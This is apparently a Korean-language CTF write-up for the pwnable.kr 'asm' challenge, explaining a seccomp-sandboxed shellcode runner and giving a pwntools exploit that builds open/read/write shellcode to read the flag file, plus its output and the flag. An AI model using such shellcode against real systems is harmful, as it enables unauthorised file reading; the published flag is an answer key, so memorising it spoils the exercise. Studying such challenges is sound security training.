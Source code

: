 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-16-39-26.png)


# **Write-Up**

소스를 확인하면 mmap을 이용해서 메모리를 할당하는 데, 0x41414000에 0x1000만큼 할당하고REAR/WRITE/EXEC 권한을 부여한다.

그 다음 0x90으로 초기화한 뒤 stub을 복사한다.

```cpp
... 생략 ...
        char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
        memset(sh, 0x90, 0x1000);
        memcpy(sh, stub, strlen(stub));
... 생략 ...
```

그 다음 stub 뒤 주소부터 쉘코드를 넣을 수 있다.

```cpp
... 생략 ...
        int offset = sizeof(stub);
        printf("give me your x64 shellcode: ");
        read(0, sh+offset, 1000);
... 생략 ...
```

stub이 뭐하는 놈인지 먼저 확인해보자. 우선, stub의 주소는 0x2020c0임을 알 수 있고, 0x2020c0을 보면 레지스터들의 값들을 자기 자신과 xor한다.

즉, 모든 값들을 0으로 초기화한다.

```sh
asm@pwnable:~$ gdb -q asm
Reading symbols from asm...(no debugging symbols found)...done.
(gdb) disas main
... 생략 ...
0x0000000000000e24 <+192>:   lea    0x201295(%rip),%rax        # 0x2020c0 <stub>
... 생략 ...
(gdb) disas 0x2020c0
Dump of assembler code for function stub:
   0x00000000002020c0 <+0>:     xor    %rax,%rax
   0x00000000002020c3 <+3>:     xor    %rbx,%rbx
   0x00000000002020c6 <+6>:     xor    %rcx,%rcx
   0x00000000002020c9 <+9>:     xor    %rdx,%rdx
   0x00000000002020cc <+12>:    xor    %rsi,%rsi
   0x00000000002020cf <+15>:    xor    %rdi,%rdi
   0x00000000002020d2 <+18>:    xor    %rbp,%rbp
   0x00000000002020d5 <+21>:    xor    %r8,%r8
   0x00000000002020d8 <+24>:    xor    %r9,%r9
   0x00000000002020db <+27>:    xor    %r10,%r10
   0x00000000002020de <+30>:    xor    %r11,%r11
   0x00000000002020e1 <+33>:    xor    %r12,%r12
   0x00000000002020e4 <+36>:    xor    %r13,%r13
   0x00000000002020e7 <+39>:    xor    %r14,%r14
   0x00000000002020ea <+42>:    xor    %r15,%r15
   0x00000000002020ed <+45>:    .byte 0x0
End of assembler dump.
```

이후 chroot함수를 이용하여 디렉토리를 변경한 후 sandbox함수를 호출하는데, sandbox함수에서 아래와 같은 함수만 호출할 수 있도록 환경이 된다.

> [seccomp](https://ko.wikipedia.org/wiki/Seccomp)

```cpp
... 생략 ...
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
... 생략 ...
```

shellcode를 간단하게 생성하기 위해 pwntools를 설치하자.

```sh
root@ubuntu:~# apt -y install python3-pip binutils
root@ubuntu:~# pip3 install pip setuptools
root@ubuntu:~# pip3 install pwntools
```

FLAG를 획득하자.

```python
from pwn import *
context(arch='amd64', os='linux')

file = 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
payload = ''
payload += shellcraft.open(file, 'O_RDONLY')
payload += shellcraft.read('rax', 'rsp', 100)
payload += shellcraft.write(1, 'rsp', 100)
payload += shellcraft.exit()

r = remote('pwnable.kr', 9026)
r.recvuntil('give me your x64 shellcode: ')
r.sendline(asm(payload))
r.interactive()

[Output]
... 생략 ...
[*] Switching to interactive mode
Mak1ng_shelLcodE_i5_veRy_eaSy
lease_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooo
... 생략 ...
```


# **FLAG**

**Mak1ng_shelLcodE_i5_veRy_eaSy**